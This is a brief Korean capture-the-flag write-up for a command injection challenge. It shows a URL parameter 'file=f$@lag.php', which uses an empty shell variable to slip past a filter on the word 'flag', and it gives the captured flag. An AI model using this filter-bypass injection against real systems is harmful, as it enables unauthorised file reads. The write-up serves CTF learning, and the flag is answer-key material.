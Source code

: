 cmd injection이다. flag.php 를 읽으면 되나보다.

```
http://dm1536803965686.fun25.co.kr:23903/74cdf2ead84d1743/?file=f$@lag.php
```

$@가 없는 변수여서 아무것도 반환을 안한다.

따라서 파일명에는 flag.php 라는 문자열이 들어가게 되고 플래그를 뱉는다.(주석으로,,)

#### FLAG : LAYER7{070e260558a03c1494817459ebbc060e}
